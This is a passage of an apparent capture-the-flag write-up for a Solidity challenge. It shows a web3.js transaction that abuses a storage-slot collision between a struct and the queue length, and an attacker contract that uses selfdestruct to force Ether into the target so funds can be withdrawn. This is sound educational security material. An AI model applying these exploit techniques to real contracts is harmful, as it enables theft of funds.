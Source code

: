 ```js
const challengeContract = "0x058de915E68b8beef52dC9463fef1cD97a51717b";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "upsert",
    type: "function",
    inputs: [
      { type: "uint256", name: "index" },
      { type: "uint256", name: "timestamp" },
    ],
  },
  [3, 0] // index must be > 2 to append a new contribution
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
  value: 2, // don't change queue.length
});
```

If you try to withdraw right away you will find out that it doesn't work and the tx simply reverts. I lost a lot of time on this, more than I should have. The problem is mostly here in the challenge contract :

```solidity
    contribution.amount = msg.value;
    contribution.unlockTimestamp = timestamp;
    queue.push(contribution);
```

 As `contribution.amount` occupies slot 0 or `queue.length`, when we reach `queue.push(contribution)` the size of the array is increased by one, thus increasing `contribution.amount` also as it is also mapped to slot 0. Then the values are copied to the array data storage slots. This means that contribution 2 for which we sent 1 Wei is actually recorded with an `amount` of 2 and contribution 3 for which we sent 2 Wei is recorded with an `amount` of 3... So when we call `withdraw` it tries to send 1 ETH + 2 Wei + 3 Wei while the actual challenge contract balance is 1 ETH + 1 Wei + 2 Wei, which is invalid and therefore reverts.

Trying to solve that issue by interacting with the challenge contract is a dead end... Unless you have close to `2^256 - 1` Wei or more, you could play around an overflow at `contribution.amount += msg.value;` but that's not very realistic. In a previous challenge we did learn a way to force a transfer bypassing every check and limitation : `selfdestruct`. We can use the same technique to increase the contract balance by 2 Wei without interfering with the `queue` and its recorded contributions.

We can build a simple attacker contract : 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {
    
    address targetContract;

    constructor(address _targetContract) payable {
        require(msg.value == 2, "Send 2 Wei");
        targetContract = _targetContract;
    }

    function attack() public {
        selfdestruct(payable(targetContract));
    }
}
```
